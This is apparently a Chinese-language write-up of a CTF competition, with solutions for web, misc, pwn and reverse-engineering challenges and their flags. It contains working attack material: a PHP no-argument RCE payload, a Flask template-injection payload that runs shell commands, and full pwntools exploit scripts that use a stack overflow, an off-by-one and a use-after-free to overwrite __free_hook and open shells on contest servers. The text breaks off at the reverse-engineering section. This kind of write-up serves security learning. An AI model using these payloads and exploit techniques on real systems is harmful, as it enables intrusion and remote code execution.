**长安“战疫”网络安全卫士守护赛**


# web

## RCE_No_Para

根据赛题名称和源代码可以知道，就是一个简单的无参数RCE但是过滤了dir所以利用参数来达到目的

```
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) { 
    if(!preg_match('/session|end|next|header|dir/i',$_GET['code'])){
        eval($_GET['code']);
    }else{
        die("Hacker!");
    }
}else{
    show_source(__FILE__);
}
?>
```

构造payload

```
?leon=show_source(next(array_reverse(scandir(pos(localeconv())))));;&code=eval(pos(pos(get_defined_vars())));
```

拿到flag


## flask

抓包可以看到admin?name提示，并且存在模板注入

过滤了__和[]符号，可以利用attr函数来绕过,将真正的属性放到请求的cookie中去

```
#coding:utf8
import requests

headers = {
   'Cookie':'globals=__globals__'
}

r = requests.get('http://dc62caf3.lxctf.net/login/../admin?name={{ (lipsum|attr(request.cookies.globals)).os.popen("cat flag").read()  }}&static.js?',headers = headers)

print r.content
```

flag{a75bc678b7ba35b62081afe2057be74b}


# misc

## 八卦迷宫

走出迷宫，然后把对应字符转换成拼音即可



然后把战等价于zhan，其他同理，得到flag

cazy{zhanchangyangchangzhanyanghechangshanshananzhanyiyizhanyianyichanganyang}

## 朴实无华的取证

```
volatility -f xp_sp3.raw --profile=WinXPSP3x86 filescan |grep flag #查找flag文件
```


```
volatility -f xp_sp3.raw --profile=WinXPSP3x86 filescan |grep 桌面
```



dump关键文件flag.zip\flag.png\我的日记.txt

```
volatility -f xp_sp3.raw --profile=WinXPSP3x86 dumpfiles -Q 0x0000000001b301c0 -D ./ -u
```



得到


flag.png中的那串字符是flag的密文



解开压缩包，得到encrypt.txt，加密方法在flag.zip中（变形的凯撒密码）其中flag.zip的解压密码在我的日记.txt中

得到flag:

cazy{Xian_will_certainly_succeed_in_fighting_the_epidemic}

## 无字天书

流量包导出php文件



可以在其中一个php文件中发现一串16进制



根据文件头可知是一个压缩包保存并解压

得到flag.txt和key.ws

打开key.ws发现都是空白字符，且存在tab和换行，猜测是whitespace

在线网站使用https://vii5ard.github.io/whitespace/解密得到key：XiAnWillBeSafe 



flag.txt全是空白字符，猜测是snow加密且上一步找到了key，工具一把梭



cazy{C4n_y0u_underSt4nd_th3_b0oK_With0ut_Str1ng}

## 西安加油

打开数据包


导出后按照大小排序能看到secret.txt



解密后得到一个PK



```
import os,base64 
 
with open("\secret.txt","r") as f:
    imgdata = base64.b64decode(f.read())
    file = open('1.zip','wb')
    file.write(imgdata)
    file.close()
```

保存成一个zip，打开看到全是图片，然后解压出来拼图



cazy{make_XiAN_great_Again}

## binry

用二进制文件读取234，发现文件头为CAFEBABE,即class文件头



用idea打开并把数字转成字符串，得base64字符串

```
MDAwMDAwMDEwMTExMDAwMDAwMDAxMTExMTEwMTExMDAwMDAwMFxuMDExMTExMDEwMTEwMTAxMDExMTExMDAwMTExMDExMDExMTExMFxuMDEwMDAxMDEwMDAwMTExMTAwMDExMTAxMDExMDExMDEwMDAxMFxuMDEwMDAxMDExMDAwMDAxMTAwMDExMTAwMDAwMTAxMDEwMDAxMFxuMDEwMDAxMDExMTAxMTAxMTAwMTEwMTEwMTAxMTExMDEwMDAxMFxuMDExMTExMDEwMTExMDEwMDAwMDAwMTAwMTAwMDAxMDExMTExMFxuMDAwMDAwMDEwMTAxMDEwMTAxMDEwMTAxMDEwMTAxMDAwMDAwMFxuMTExMTExMTEwMDEwMDAwMDAwMDEwMDExMDAxMTExMTExMTExMVxuMTEwMDAxMDEwMTAxMDAwMDEwMTExMTExMDEwMDAwMDAxMTAwMFxuMDEwMTEwMTAwMDExMDAxMDAxMDAwMDEwMDExMDEwMTAxMTEwMVxuMTAxMTAwMDAwMTAwMTExMTAwMTEwMDAxMTAxMDAwMDAxMDAxMFxuMTExMDExMTExMTExMDAxMDEwMTEwMTAwMDExMDEwMTAxMTEwMFxuMTAxMDExMDAwMTExMDAwMDAwMDExMDEwMDAwMDAwMDAwMDAxMFxuMDExMDEwMTAwMTAwMDEwMDAxMTAxMTEwMTAxMTEwMTExMTEwMVxuMDAxMDEwMDEwMDExMTExMTEwMTExMDAwMDExMDAxMDEwMDAxMFxuMDAxMDAwMTEwMTExMDExMDExMDAxMTAwMTEwMDExMDAxMTEwMVxuMTExMDEwMDExMDAwMTExMTExMTAxMTAxMDAxMTAwMDAwMDAxMFxuMDAwMDExMTAxMDEwMDAxMTEwMDAwMDEwMTEwMTExMTExMDExMVxuMTEwMTEwMDExMDEwMTEwMTAwMTEwMDAxMDEwMDExMDAwMDEwMFxuMDEwMTAwMTAwMTExMTAwMTAwMDAwMTAwMTExMDAxMDAxMDExMVxuMDEwMTAxMDAxMTAwMDExMTAwMDExMDAxMDAwMDAxMDEwMTAwMFxuMTAwMTEwMTExMTEwMTExMDExMDAxMDAxMTExMTEwMTAxMTEwMVxuMTEwMTEwMDAxMDExMTAwMDAwMDEwMTExMDExMDAwMTAxMTAxMFxuMDAxMTAwMTAwMDExMTEwMTEwMDAxMTExMDEwMDEwMDExMTEwMVxuMDEwMTAwMDAwMTExMDEwMTExMDExMDEwMTExMTExMDEwMDAxMFxuMDEwMTAxMTAxMTAwMTAwMTAwMDAwMDExMDEwMDAxMDAxMTExMVxuMDExMDEwMDAxMDAwMTExMDAxMDExMDAxMTAxMTExMTAwMTEwMFxuMDExMTAwMTExMTEwMDAwMDAxMDExMDExMDExMTAwMTExMTEwMFxuMDEwMDExMDAxMDExMDAxMDEwMDAxMDExMTAxMTAwMDAwMDAwMFxuMTExMTExMTEwMTAxMTAwMTExMDAxMTEwMDEwMTAxMTEwMTAxMVxuMDAwMDAwMDExMTAwMDExMTAxMTAxMDExMDAwMTAxMDEwMDEwMFxuMDExMTExMDExMTAwMTEwMTAxMDExMDEwMTEwMDAxMTEwMTExMVxuMDEwMDAxMDEwMDExMDAwMDExMDAxMTAxMDAwMDAwMDAwMDAxMFxuMDEwMDAxMDEwMTExMTEwMTEwMDAxMTExMTExMTExMDEwMDExMVxuMDEwMDAxMDEwMTEwMTExMTExMTEwMDAwMDAxMDEwMTAxMDExMFxuMDExMTExMDExMTExMTAwMDEwMTEwMTAwMTExMTAwMDExMDExMFxuMDAwMDAwMDExMTExMTAxMTExMDExMDAwMDAwMDEwMDAxMTAwMA==
```

解码base64字符串得一串01字符

```
0000000101110000000011111101110000000
0111110101101010111110001110110111110
0100010100001111000111010110110100010
0100010110000011000111000001010100010
0100010111011011001101101011110100010
0111110101110100000001001000010111110
0000000101010101010101010101010000000
1111111100100000000100110011111111111
1100010101010000101111110100000011000
0101101000110010010000100110101011101
1011000001001111001100011010000010010
1110111111110010101101000110101011100
1010110001110000000110100000000000010
0110101001000100011011101011101111101
0010100100111111101110000110010100010
0010001101110110110011001100110011101
1110100110001111111011010011000000010
0000111010100011100000101101111110111
1101100110101101001100010100110000100
0101001001111001000001001110010010111
0101010011000111000110010000010101000
1001101111101110110010011111101011101
1101100010111000000101110110001011010
0011001000111101100011110100100111101
0101000001110101110110101111110100010
0101011011001001000000110100010011111
0110100010001110010110011011111001100
0111001111100000010110110111001111100
0100110010110010100010111011000000000
1111111101011001110011100101011101011
0000000111000111011010110001010100100
0111110111001101010110101100011101111
0100010100110000110011010000000000010
0100010101111101100011111111110100111
0100010101101111111100000010101010110
0111110111111000101101001111000110110
0000000111111011110110000000100011000
```

猜测为37X37二维码


通过脚本画出二维码得到flag

flag{932b2c0070e4897ea7df0190dbf36ece}

## ez_Encrypt

把eval改print 一路反混淆即可





cazy{PHP_ji4m1_1s_s00000_3aSyyyyyyyyyyy}

## Ez_Steg

根据zip提示可以知道是6位数密码，爆破可得zip密码


得到txt和pyc

用stegosaurus可以得到key：St3glsV3ryFuNny



然后用在线网站解密表情

🙃💵🌿🎤🚪🌏🐎🥋🚫😆😍🌿🍴✉🍴🙃🌊🕹🖐🐍😁💵🕹🍵🏹💵😇🐎🕹✅🌊🥋👁✅✅🕹🌿😍😆🕹👁😂❓🔪🔬🔬🥋🚪☃🏹🚫🍍✉✅🤣🍌☂🛩ℹℹ☂🍎👉🚫🏹☂👌✉💵❓🕹✅👑🏹☀😡🤣✖🍌🐎😁😊😆🎤👌⌨🗒🗒

得到flag

# pwn

## pwn1

题目明显的栈溢出、一个buf栈地址和一个后门，没开canary、pie

```c
int __cdecl main()
{
  char buf[52]; // [esp+0h] [ebp-38h] BYREF

  sub_80484FB();
  printf("Gift:%p\n", buf);
  read(0, buf, 0x100u);
  return 0;
}
```

可直接溢出覆盖返回地址为bckdoor

```
#coding:utf8
from pwn import *

backdoor = 0x08048540
sh= remote('113.201.14.253',16088)
#sh = process('./pwn1')
sh.recvuntil('Gift:')
stack_addr = int(sh.recvuntil('\n',drop = True),16)
payload = 'a'*0x34 + p32(stack_addr + 0x3c) + p32(backdoor)
sh.sendline(payload)
sh.interactive()
```

flag{474b7f9219effe69530da4ad63c1752a}

## pwn2

add函数read的时候由offbyone

```c
unsigned __int64 add()
{
  int i; // [rsp+Ch] [rbp-14h]
  int j; // [rsp+10h] [rbp-10h]
  int v3; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  for ( i = 0; i <= 15 && qword_202080[i]; ++i )
    ;
  sub_A60("size: ");
  v3 = sub_AB8();
  if ( v3 <= 0 || v3 > 1040 )
    exit(0);
  qword_202080[i] = malloc(v3);
  dword_202040[i] = v3;
  sub_A60("content: ");
  for ( j = 0; j <= v3; ++j )                   // offbyone
  {
    if ( (char)read(0, (void *)(qword_202080[i] + j), 1uLL) <= 0 )
      exit(0);
    if ( *(_BYTE *)(qword_202080[i] + j) == 10 )
    {
      *(_BYTE *)(qword_202080[i] + j) = 0;
      return __readfsqword(0x28u) ^ v4;
    }
  }
  return __readfsqword(0x28u) ^ v4;
}

```

show函数没有检查下标，有下标越界，可泄露libc

```c
unsigned __int64 show()
{
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  sub_A60("idx: ");
  v1 = sub_AB8();
  if ( v1 <= 15 )   // 下标为负
    sub_A60(qword_202080[v1]);
  return __readfsqword(0x28u) ^ v2;
}
```

通过下标越界泄露libc，offbyone制造堆块重叠，打freehook为system

```python
#coding:utf8
from pwn import *
#sh = process('./pwn2')
sh = remote('113.201.14.253',16066)
libc = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
def add(size,content):
   sh.sendlineafter('Choice:','1')
   sh.sendlineafter('size:',str(size))
   sh.sendafter('content:',content)
def edit(index,content):
   sh.sendlineafter('Choice:','2')
   sh.sendlineafter('idx:',str(index))
   sh.sendafter('content:',content)
def delete(index):
   sh.sendlineafter('Choice:','3')
   sh.sendlineafter('idx:',str(index))
def show(index):
   sh.sendlineafter('Choice:','4')
   sh.sendlineafter('idx:',str(index))
show(-0x11)
sh.recv(1)
libc_base = u64(sh.recv(6).ljust(8,'\x00')) - libc.sym['_IO_2_1_stderr_']
free_hook = libc_base + libc.sym['__free_hook']
system_addr = libc_base + libc.sym['system']
print 'libc_base=',hex(libc_base)
context.log_level = 'debug'
add(0xF0,'a'*0xF1) #0
add(0x80,'b'*0x81) #1
add(0xF0,'c'*0xF1) #2
for i in range(7):
   add(0xF0,'d'*0xF1)
for i in range(3,10):
   delete(i)
delete(0)
delete(1)
add(0x88,'b'*0x80 + p64(0x90 + 0x100) + '\n') #0
delete(0)
delete(2)
add(0x110,'a'*0xF0 + p64(0) + p64(0x81) + p64(free_hook) + '\n') #0
add(0x80,'/bin/sh\x00\n') #1
add(0x80,p64(system_addr) + '\n') #2
delete(1)
sh.interactive()
```

flag{33cb931de8350b94d949efa8220d5433}

## pwn3

```
from pwn import *
from LibcSearcher import *
import pwnlib
debug = 0
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']
IP="113.201.14.253"
port=16033
file_name = "./Gpwn3"
try:
    libc_path = "./libc-2.23.so"
    libc = ELF(libc_path)
except:
    pass
menu = "You choice:"
elf=ELF(file_name)
if debug:
    sh = process(file_name)
else:
    sh = remote(IP,port)
def debug():
    gdb.attach(sh)
    pause()
def cmd(choice):
    sh.recvuntil(menu)
    sh.sendline(str(choice))

def create(payload):
    cmd(1)
    sh.sendlineafter("Give me a character level :\n",payload)

def leaveup(payload):
    cmd(2)
    sh.sendlineafter("Give me another level :\n",payload)

def play():
    cmd(3)
create('a'*35)
leaveup('a'*0x10)
leaveup('a'*0x10)
play()
play()
sh.recvuntil("Here's your reward: ")
put_addr = int(sh.recv(14),16)
libc_base = put_addr - libc.sym['puts']
log.info("libc_base=>{}".format(hex(libc_base)))
exit_hook = libc_base + 0x5f0f48
one = libc_base + 0xf1247
sh.sendafter("Warrior,please leave your name:",p64(exit_hook))
sh.sendafter("We'll have a statue made for you!",p64(one))

sh.interactive()
```

flag{3901afdc7f79dedfdb062a241eb3a575}

## pwn4

uaf



本题难点在于远程的堆结构有点不一样，通过UAF配合edit去控制另一个节点的结构，构造任意地址读写后把远程内存读出来，慢慢尝试，最终找到合适的偏移

```
#coding:utf8
from pwn import *

#sh = process('./pwn4')
#sh = process('./pwn4',env = {'LD_PRELOAD':'./libc-2.31.so'})
sh = remote('113.201.14.253',16222)
#sh = remote('127.0.0.1',6666)
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so')
def add(index,name,key,value):
   sh.sendlineafter('Your choice:','1')
   sh.sendlineafter('index:',str(index))
   sh.sendlineafter('name:',name)
   sh.sendlineafter('key:',key)
   sh.sendlineafter('value:',str(value))
def show(index):
   sh.sendlineafter('Your choice:','2')
   sh.sendlineafter('index:',str(index))
def edit(index,name,length,key,value):
   sh.sendlineafter('Your choice:','3')
   sh.sendlineafter('index:',str(index))
   sh.sendlineafter('name:',name)
   sh.sendlineafter('length:',str(length))
   sh.sendlineafter('Key:',key)
   sh.sendlineafter('Value:',str(value))
def delete(index):
   sh.sendlineafter('Your choice:','4')
   sh.sendlineafter('index:',str(index))
add(0,'a'*0x10,'b'*0x10,0x12345678)
add(1,'c'*0x10,'d'*0x10,0x12345678)
delete(0)
show(0)
sh.recvuntil('Key: ')
heap_addr = u64(sh.recv(6).ljust(8,'\x00'))
print 'heap_addr=',hex(heap_addr)
delete(1)
edit(0,'a'*0x10,6,p64(heap_addr + 0x20)[0:6],0x66666666)
add(2,'c'*0x10,'d'*0x10,0x12345678)
add(3,'c'*0x10,'d'*0x10,0x12345678)
context.log_level = 'debug'
for i in range(4,13):
   add(i,'c'*0x10,str(i-4)*0x100,0x12345678)
for i in range(4,7):
   delete(i)
for i in range(9,13):
   delete(i)
delete(7)
edit(3,'c'*0x10,0x8,p64(heap_addr + 0x400 + 0x900 - 0x90),1)
show(0)
sh.recvuntil('Key: ')
libc_base = u64(sh.recv(6).ljust(8,'\x00')) - 0x1ebbe0
system_addr = libc_base + libc.sym['system']
free_hook_addr = libc_base + libc.sym['__free_hook']
print 'libc_base=',hex(libc_base)
delete(2)
edit(2,'a'*0x10,6,p64(free_hook_addr)[0:6],0x66666666)
add(2,'c'*0x10,'/bin/sh\x00',0x12345678)
add(4,'c'*0x10,p64(system_addr),0x12345678)
#getshell
delete(2)
sh.interactive()
```


# re

## combat_slogan

jd打开jar文件

